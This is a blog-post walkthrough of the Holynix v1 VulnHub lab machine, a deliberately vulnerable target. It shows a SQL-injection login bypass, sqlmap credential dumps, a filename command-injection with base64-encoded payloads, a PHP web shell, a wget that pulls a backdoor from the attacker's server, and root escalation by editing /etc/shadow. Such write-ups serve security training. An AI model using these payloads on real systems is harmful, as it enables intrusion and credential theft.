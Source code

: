 ```yaml
---
layout: post
title: "Holynix: v1"
date: 2015-05-10 13:54:06 +0200
comments: true
categories: [vulnhub, holynix]
---
```

Image: [Holynix: v1](https://www.vulnhub.com/entry/holynix-v1,20/)

We set networking in Vmware Fusion as "Share with my Mac" and check the 
obtained IP address:

{% codeblock %}
/var/db/vmware:
lease 192.168.80.142 {
        starts 4 2015/04/30 16:18:54;
        ends 4 2015/04/30 16:48:54;
        hardware ethernet 00:0c:29:bc:05:de;
}
{% endcodeblock %}

Nmap output:
{% codeblock %}
root@kali32:~# nmap -sV -p- 192.168.80.142

Starting Nmap 6.47 ( http://nmap.org ) at 2015-04-27 07:16 CEST
Nmap scan report for 192.168.80.142
Host is up (0.00028s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
MAC Address: 00:0C:29:BC:05:DE (VMware)
{% endcodeblock %}

There is a SQL injection in the web login, we submit the following username and password: 
{% codeblock %}
test' or '1'='1
{% endcodeblock %}

Via security (ssp.php) we can disclose arbitrary file (for example /etc/passwd):
{% codeblock %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
alamo:x:1000:115::/home/alamo:/bin/bash
etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
hreiser:x:1003:50::/home/hreiser:/bin/bash
jdraper:x:1004:100::/home/jdraper:/bin/bash
jjames:x:1005:50::/home/jjames:/bin/bash
jljohansen:x:1006:115::/home/jljohansen:/bin/bash
ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
mrbutler:x:1009:50::/home/mrbutler:/bin/bash
rtmorris:x:1010:100::/home/rtmorris:/bin/bash
{% endcodeblock %}

With sqlmap we can dump the whole database (%40 means '@' character):
{% codeblock %}
# sqlmap -u "http://192.168.80.142/index.php?page=login.php&user_name=a&password=a&Submit_button=Submit" --dump-all
{% endcodeblock %}
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.80.142/dump# cat creds/accounts.csv
cid,upload,username,password
1,0,alamo,Ih%40cK3dM1cR05oF7
2,1,etenenbaum,P3n7%40g0n0wN3d
3,1,gmckinnon,d15cL0suR3Pr0J3c7
4,1,hreiser,Ik1Ll3dNiN%40r315er
5,1,jdraper,p1%40yIngW17hPh0n35
6,1,jjames,%40rR35t3D%40716
7,1,jljohansen,m%40k1nGb0o7L3g5
8,1,kpoulsen,wH%407ar37H3Fed5D01n
9,0,ltorvalds,f%407H3r0FL1nUX
10,1,mrbutler,n%405aHaSw0rM5
11,1,rtmorris,Myd%40d51N7h3NSA
{% endcodeblock %}

Using sqlmap --passwords parameter we got:
{% codeblock %}
database management system users password hashes:
[*] debian-sys-maint [1]:
    password hash: %2A04DDBBF6BA7B43D9B78611E125C80124644D17B8
[*] root [1]:
    password hash: %2AA69F92BBDEA591F5BB9E4A049F0C181D6DB5177E
{% endcodeblock %}

Back to the web page, there is a cookie set as 'uid=1'. We can try different
numbers, because not every user has allowed to upload file, see accounts.csv. 

We disclose transfer.php script:
{% codeblock lang:php %}
if ( $auth == 0 ) {
        echo "<center><h2>Content Restricted</h2></center>";
} else {
        if ( $upload == 1 )
        {
                $homedir = "/home/".$logged_in_user. "/";
                $uploaddir = "upload/";
                $target = $uploaddir . basename( $_FILES['uploaded']['name']) ;
                $uploaded_type = $_FILES['uploaded']['type'];
                $command=0;
                $ok=1;

                if ( $uploaded_type =="application/gzip" && $_POST['autoextract'] == 'true' ) { $command = 1; }

                if ($ok==0)
                {
                        echo "Sorry your file was not uploaded";
                        echo "<a href='?index.php?page=upload.php' >Back to upload page</a>";
                } else {
                        if(move_uploaded_file($_FILES['uploaded']['tmp_name'], $target))
                        {
                                echo "<h3>The file '" .$_FILES['uploaded']['name']. "' has been uploaded.</h4><br />";
                                echo "The ownership of the uploaded file(s) have been changed accordingly.";
                                echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
                                if ( $command == 1 )
                                {
                                        exec("sudo tar xzf " .$target. " -C " .$homedir);
                                        exec("rm " .$target);
                                } else {
                                        exec("sudo mv " .$target. " " .$homedir . $_FILES['uploaded']['name']);
                                }
                                exec("/var/apache2/htdocs/update_own");
                        } else {
                                echo "Sorry, there was a problem uploading your file.<br />";
                                echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
                        }
                }
        } else { echo "<br /><br /><h3>Home directory uploading disabled for user " .$logged_in_user. "</h3>"; }
}
?>
{% endcodeblock %}

As we can see from the source code, the filename is used in shell command and
we can inject malicious input. However the '/' or '\' characters are
prohibited, because to $target is stored only the value after (back)slash.

Locator (it never terminates, but confirms our finding):
{% codeblock %}
Content-Disposition: form-data; name="uploaded"; filename=";yes;"
{% endcodeblock %}

We can evade the slash restriction encoding the payload as base64 (touch /tmp/owned):
{% codeblock %}
Content-Disposition: form-data; name="uploaded"; filename=";`echo dG91Y2ggL3RtcC9vd25lZA==| base64 -d`;"
{% endcodeblock %}

There could be a problem with a bigger input ("filename too long").

Similarly we upload the following base64 payload:
{% codeblock %}
root@kali32:/var/www# echo '<?php system($_REQUEST['cmd']); ?>' | base64
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFtjbWRdKTsgPz4K
{% endcodeblock %}

We try our php shell and in the case of success, we upload weevely from our web server:
{% codeblock %}
http://192.168.80.142/b.php?cmd=id
http://192.168.80.142/b.php?cmd=wget 192.168.80.137/weevely.php.txt -O c.php
{% endcodeblock %}

{% codeblock %}
root@kali32:/var/www# weevely http://192.168.80.142/c.php 1234
{% endcodeblock %}

Note that there exists also a trivial solution, because users can upload php
shell to home directory, which can be invoked without any restriction.

If we read the discussion on web server, someone is asking about port knocking.
We download the data to our server: 
{% codeblock %}
www-data@:/etc/knockknock.d/profiles/alamo $

root@kali32:~# find .knockknock/
.knockknock/
.knockknock/192.168.80.142
.knockknock/192.168.80.142/config
.knockknock/192.168.80.142/counter
.knockknock/192.168.80.142/mac.key
.knockknock/192.168.80.142/cipher.key
{% endcodeblock %}

From the vulnerable server, we download and use knockknock too:
{% codeblock %}
root@kali32:~/.knockknock# knockknock -p 22 192.168.80.142
*** Success: knock sent.
root@kali32:~/.knockknock# ssh alamo@192.168.80.142

The authenticity of host '192.168.80.142 (192.168.80.142)' can't be established.
RSA key fingerprint is 03:73:de:c7:17:96:0b:bb:8c:8e:c7:87:9b:5b:d5:c9.
Are you sure you want to continue connecting (yes/no)?
{% endcodeblock %}

We log in as alamo / Ih@cK3dM1cR05oF7.

Because nobody has higher privileges for sudo except www-data, we use the web
account to obtain root privileges.
One way of doing this is to change using chown /etc/shadow the file permissions
to www-data, move to /tmp and change the root hash to a know one (e.g.
alamo's). Then we move the shadow file back. 

In the end we log in as root with Ih@cK3dM1cR05oF7 password:
{% codeblock %}
# uid=0(root) gid=0(root) groups=0(root)
{% endcodeblock %}
